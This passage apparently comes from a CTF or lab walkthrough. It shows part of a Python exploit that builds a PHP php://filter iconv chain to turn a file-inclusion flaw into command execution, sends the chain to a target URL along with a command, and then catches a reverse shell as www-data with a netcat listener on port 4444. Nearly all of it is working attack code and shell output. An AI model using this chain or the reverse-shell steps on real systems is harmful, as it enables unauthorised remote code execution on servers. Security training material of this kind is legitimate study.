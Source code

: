 ```python
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",
    "file": final_payload
})

print(r.text)
```

Start netcat listener on port 4444 and get reverse shell by running above python script :
```console
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.x.x.x] from (UNKNOWN) [10.10.156.141] 39776
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
